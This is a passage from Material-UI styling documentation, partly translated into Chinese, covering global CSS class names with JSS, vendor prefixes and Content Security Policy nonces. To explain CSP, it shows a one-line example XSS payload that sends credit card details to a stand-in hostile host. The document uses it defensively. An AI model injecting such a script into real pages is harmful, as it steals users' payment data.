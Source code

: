 {{"demo": "pages/styles/advanced/GlobalClassName.js"}}

## 全局CSS

### `jss-plugin-global`

The [`jss-plugin-global`](#jss-plugins) plugin is installed in the default preset. You can use it to define global class names.

{{"demo": "pages/styles/advanced/GlobalCss.js"}}

### Hybrid

You can also combine JSS generated class names with global ones.

{{"demo": "pages/styles/advanced/HybridGlobalCss.js"}}

## CSS prefixes

JSS uses feature detection to apply the correct prefixes. [Don't be surprised](https://github.com/mui-org/material-ui/issues/9293) if you can't see a specific prefix in the latest version of Chrome. Your browser probably doesn't need it.

## 内容安全政策（CSP）

### 什么是CSP，为什么它有用？

基本上，CSP通过要求开发人员将其资产从中检索的源列入白名单来缓解跨站点脚本（XSS）攻击。 此列表作为服务器的标头返回。 例如，假设您有一个托管在` https://example.com`的网站 CSP头`default-src：'self';`将允许位于`https://example.com/*`的所有资产并否认所有其他人。 如果您的网站的某个部分容易受到XSS的影响而未显示未转义的用户输入，则攻击者可以输入以下内容：

```html
<script>
  sendCreditCardDetails('https://hostile.example');
</script>
```

此漏洞允许攻击者执行任何操作。 但是，使用安全的CSP标头，浏览器将不会加载此脚本。

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### 如何实现CSP？

为了将CSP与Material-UI（和JSS）一起使用，您需要使用nonce。 A nonce is a randomly generated string that is only used once, therefore you need to add server middleware to generate one on each request. JSS 有一个关于如何使用 Express 和 React Helmet 实现这一目标的[很棒的教程](https://github.com/cssinjs/jss/blob/master/docs/csp.md)。 对于基本纲要，请继续阅读。

CSP nonce是Base 64编码的字符串。 你可以这样生成一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```
